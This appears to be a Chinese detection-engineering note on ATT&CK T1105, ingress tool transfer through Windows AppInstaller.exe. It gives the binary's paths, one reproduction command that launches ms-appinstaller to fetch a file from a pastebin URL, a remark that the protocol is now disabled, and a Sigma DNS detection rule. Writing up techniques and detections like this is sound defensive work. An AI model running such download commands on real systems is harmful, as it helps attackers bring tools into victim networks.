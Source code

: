 # T1105-win-入口工具转移-AppInstaller.exe(白名单、失效)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

AppInstaller.exe用于在 Windows 10 上安装AppX/MSIX应用程序的工具。

**路径:**

```bash
C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
```

AppInstaller.exe 由 URI 的默认处理程序生成，它尝试从 URL 加载/安装包并保存在

```bash
C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

## 检测日志

windows安全日志

## 测试复现

```bash
C:\Users\liyang>start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
```

不过很遗憾，微软禁用ms-appinstaller协议，用以阻止恶意软件传播。

## 测试留痕

无

## 检测方法/思路

这里参考Sigma官方规则。

```yml
title: AppInstaller Attempts From URL by DNS

id: 7cff77e1-9663-46a3-8260-17f2e1aa9d0a

description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL

status: experimental

date: 2021/11/24

author: frack113

tags:

- attack.command_and_control

- attack.t1105

references:

- https://twitter.com/notwhickey/status/1333900137232523264

- https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/

logsource:

product: windows

category: dns_query

detection:

selection:

Image|startswith: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_

Image|endswith: \AppInstaller.exe

condition: selection

falsepositives:

- Unknown

level: medium

```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

AppInstaller.exe

<https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/>

Sigma-win_dq_lobas_appinstaller

<https://github.com/SigmaHQ/sigma/blob/bdb00f403fd8ede0daa04449ad913200af9466ff/rules/windows/dns_query/win_dq_lobas_appinstaller.yml>
